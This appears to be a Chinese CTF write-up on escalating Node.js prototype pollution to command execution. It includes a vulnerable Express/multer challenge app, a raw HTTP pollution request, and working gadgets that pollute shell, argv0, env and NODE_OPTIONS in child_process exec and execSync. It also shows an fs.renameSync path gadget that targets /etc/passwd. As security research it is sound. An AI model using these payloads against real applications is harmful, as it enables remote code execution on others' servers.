




# nodejs 原型链污染到命令执行

!!! node
    原型链污染是nodejs中比较常见的漏洞，但如何利用原型链污染最终命令执行往往需要结合一些第三方库。
    其实在nodejs的源码中，也存在可以利用的地方。

## 研究生赛中的一道题

??? node "主要代码 app.js"
    ```javascript
    const express = require("express");
    const merge = require("./utils/merge");
    const fs = require("fs");
    const multer = require("multer");
    const bodyParser = require("body-parser");
    const { execSync } = require("child_process");
    const PORT = process.env.PORT || 81;
    const app = express();
    
    var db = [];
    var objMulter = multer({ dest: "./public/upload" });
    app.use(objMulter.any());
    app.use(express.static("./public"));
    app.use(bodyParser.urlencoded());
    
    app.post("/upload", (req, res) => {
    
        try{
            
            console.log(req.files)
            let oldPath = req.files[0].path;//["file:///app/public/flag"]
            let newPath = oldPath + ".jpg";
            let data = {type: "image", path: newPath};
            fs.renameSync(oldPath, newPath);
            
            merge(data, req.body);
            db.push(data);
            res.send(`<script>alert("upload in " + location.origin  + "${newPath.slice(6)}");location="/";</script>`);
            return;
        }catch{
            res.send("<script>alert('出错了！');location='/';</script>");
            return;
        }
    });
    
    app.get("/getImg", (req, res) => {
        res.send(db);
        return;
    });
    
    app.get("/rm", (req, res) => {
        try{
            console.log("a")
            execSync("rm -rf /app/public/upload/*");
            db = [];
            res.send("<script>alert('全都删完喽！');location='/';</script>")
            return;
        } catch{
            res.send("<script>alert('出错了！');location='/';</script>");
            return;
        }
    });
    
    app.listen(PORT, () => {
        console.log(`listen at ${PORT}`);
    });
    ```
上面的题目通过下面的请求，可以容易的原型链污染。
```
POST /upload HTTP/1.1
Host: 127.0.0.1:81
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Length: 300
Content-Type: multipart/form-data; boundary=df16a984e58633372c92c2c1268ca06e

--df16a984e58633372c92c2c1268ca06e
Content-Disposition: form-data; name="constructor[prototype][fileFilter]"

111111111
--df16a984e58633372c92c2c1268ca06e
Content-Disposition: form-data; name="image"; filename="1.txt"
Content-Type: text/plain

13123123
--df16a984e58633372c92c2c1268ca06e--

```
    
但比赛现场没有找到最后rce的方法。赛后找到了几篇文章。
!!! prototype-pollution-to-rce 
    [https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce)

## child_process 

### exec
```js
// environ trick - not working
// It's not possible to pollute the .env attr to create a first env var
// because options.env is null (not undefined)

// cmdline trick - working with small variation
// Working after kEmptyObject (fix)
const { exec } = require('child_process');
p = {}
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/exec-cmdline').toString())//"
p.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"
var proc = exec('something');

// stdin trick - not working
// Not using stdin

// Windows
// Working after kEmptyObject (fix)
const { exec } = require('child_process');
p = {}
p.__proto__.shell = "\\\\127.0.0.1\\C$\\Windows\\System32\\calc.exe"
var proc = exec('something');
```


结合上面的paylaod，再通过调试node源码，发现在normalizeExecArgs函数中的options.shell的确可以被污染。

通过输出可以知道options.shell控制了

继续跟进可以在normalizeExecFileArgs 中发现另一个可以污染的变量argv0。


跟到normalizeSpawnArguments 中可以看到将argv0插到args的最前面，并根据不同的平台选择不同的shell。


最后可以跟到调用this._handle.spawn(options);再往下就要调试c++源码了。


但还没出现NODE_OPTIONS这个变量,去查文档最后知道是通过环境变量的方式导入模块.具体为什么要导入就暂时不探究了.
!!! node "NODE_OPTIONS"
    [NODE_OPTIONS](https://nodejs.org/api/cli.html#-r---require-module)
    

### execSync
和上面exec一样的paylaod也是可以触发的,不过最后会报错.
文章中给的下面的方式也是可以的,最后同样会报错.
```js
// environ trick - working with small variation (shell and argv0)
// Working after kEmptyObject (fix)
const { execSync } = require('child_process');
p = {}
// If in windows or mac you need to change the following params to the path of ndoe
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/execSync-environ').toString())//"}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = execSync('something');

```

## fs.renameSync

再贴一个fs中的用来重命名文件的
```js
const fs = require("fs");

b = ["file:///tmp/execSync-environ"]

a = {}

a.__proto__.href = "file:///etc/passwd"

a.__proto__.origin = "a"
a.__proto__.protocol="file:"
a.__proto__.password =""
a.__proto__.username = ""
a.__proto__.port = ""
a.__proto__.search = ""
a.__proto__.hostname = ""
a.__proto__.pathname = "/etc/passwd"
fs.renameSync(b,"file:///tmp/execSync-environ222")
```
问题出在getValidatedPath中

!!! abstract
    但这个其实还挺鸡肋的,需要传入renameSync的第一参数是数组,所以用处不大.